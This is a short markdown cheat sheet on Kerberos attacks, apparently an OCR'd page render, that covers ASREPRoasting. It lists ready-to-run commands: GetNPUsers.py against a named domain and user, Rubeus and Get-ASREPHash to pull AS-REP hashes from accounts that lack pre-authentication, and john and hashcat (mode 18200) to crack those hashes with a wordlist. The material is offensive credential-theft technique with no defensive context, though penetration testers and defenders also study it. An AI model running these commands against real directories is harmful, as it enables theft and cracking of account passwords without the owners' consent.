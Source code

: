 # Kerberos Attacks

## ASREPRoast 
If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request am.mt.mtnet/us30-zherosheroes:`   
On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   
Cracking:   
`john --wordlist=passwords_kerb.txt hashes.asreproast   
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt`   

